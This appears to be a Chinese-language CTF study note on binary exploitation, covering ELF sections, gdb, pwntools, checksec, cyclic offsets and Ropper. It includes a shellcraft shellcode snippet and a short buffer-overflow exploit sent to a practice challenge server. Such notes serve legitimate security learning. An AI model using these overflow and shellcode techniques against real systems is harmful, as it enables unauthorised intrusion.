 ```yaml
---
title: PWN
date: 2025-02-07 00:05:38
tags:
  - CTF笔记
  - PWN
---
```


# PWN

## ELF 文件

ELF 文件中包含多个节 section.

| 名称             | 作用                   |
| ---------------- | ---------------------- |
| `.text`          | 代码                   |
| `.rdata`         | 字符串，不可修改的数据 |
| `.data`          | 已经初始化的可修改数据 |
| `.bss`           | 未被初始化的可修改数据 |
| `.ple` 与 `.got` | 动态链接函数地址       |
|                  |                        |

![1](https://ff-0xff.github.io/2020/04/14/GOT%E8%A1%A8/1.png)

> [GOT表介绍的博客](https://ff-0xff.github.io/2020/04/14/GOT%E8%A1%A8/)

``` shell
gdb a.out
start
vmmap
```

用 vmmap 可以看到内存的表

可以看到内存里有 `libc.so` 这个库

libc 直接运行可以显示出版本

``` shell
./libc-2.23.so
```



## 工具

### Pwntool

#### 本地调试

``` python
io = process("./vuln")
io = process(["python3", "chall.py"]) # 如果运行python
```

#### 返回可交互的界面

``` python
from pwn import *
io = remote('ip',port)
io.interactive()
```

#### checksec 查看文件信息

``` shell
checksec get_shell
```

会显示 

* Arch, 架构
* Stack: No canary 说明没有栈canary
* NX 防护. 如果 NX Enabled 说明堆栈不可执行
* PIE：在没有开启PIE的情况下，bss段的地址是固定的

#### ASLR

现代操作系统都默认开启 ASLR

ASLR: 开启时,堆栈,libc 的地址会随机化

### CYCLIC

可以生成可以定位的字符串

``` shell
cyclic 64 # 长度为64
```

确定偏移：先去gdb溢出后找到 Invalid address `0x62616164` 之类的

然后

``` shell
cyclic -l 0x62616164
```

得出偏移，然后可以放在

``` python
asm(shellcraft.sh()).lshift(<偏移量>, 'a')
```



### Stack Overflow 栈溢出

栈溢出是向高地址溢出

> 攻防世界 hello_pwn

``` python
from pwn import *
io = remote("61.147.171.105", 53481)
io.sendline(b"a"*4 + p64(0x6E756161))
io.interactive()
```



## ROP

### Ropper

#### 在Ubuntu添加Kali源

sudo 编辑 `/etc/apt/sources.list` 加入

``` shell
deb http://http.kali.org/kali kali-rolling main contrib non-free
```

然后添加GPG密钥

``` shell
wget -q -O - https://archive.kali.org/archive-key.asc | sudo apt-key add -
```

然后 apt update就可以了

#### 安装Ropper

``` shell
sudo apt install ropper
```

#### 使用 Ropper

打开ropper

``` shell
ropper
```

加载文件

``` shell
file main.main
```

搜索gadget

``` shell
search jmp
```

退出

``` shell
quit
```







## GDB 调试

### TUI

#### 打开TUI

``` shell
tui enable
```

#### 打开汇编窗口

``` shell
layout asm
```

#### 打印

``` shell
print counter
print $r3
```

#### 检查内存

``` shell
x /1wx 0x08000000
x /16wx $sp
```

